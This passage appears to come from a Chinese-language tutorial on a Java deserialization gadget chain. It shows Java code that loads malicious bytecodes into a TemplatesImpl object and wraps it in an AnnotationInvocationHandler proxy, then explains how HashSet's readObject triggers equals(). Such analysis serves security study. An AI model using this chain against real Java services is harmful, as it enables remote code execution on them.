 ```java
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","z3eyond");

        HashMap<String ,Object> memberValues=new HashMap<>();
        memberValues.put("z3eyond","z3eyond");
        Class clazz= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor=clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler=(InvocationHandler)constructor.newInstance(Templates.class,memberValues);
        Templates proxy=(Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );
        proxy.equals(templates);
    }
}

```

现在问题是，怎么去触发这个`equals`函数？

我们联想到set这个数据结构：

```
Set实际上相当于只存储key、不存储value的Map。我们经常用Set用于去除重复元素。
```

因为对象不重复，因此就会涉及到比较。equals是用来比较两个对象的内容是否相同。

```
最常用的Set实现类是HashSet，实际上，HashSet仅仅是对HashMap的一个简单封装。
```

直接看`HashSet`的`readObject`函数：

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read in HashMap capacity and load factor and create backing HashMap
        int capacity = s.readInt();
        float loadFactor = s.readFloat();
        map = (((HashSet)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in size
        int size = s.readInt();

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```
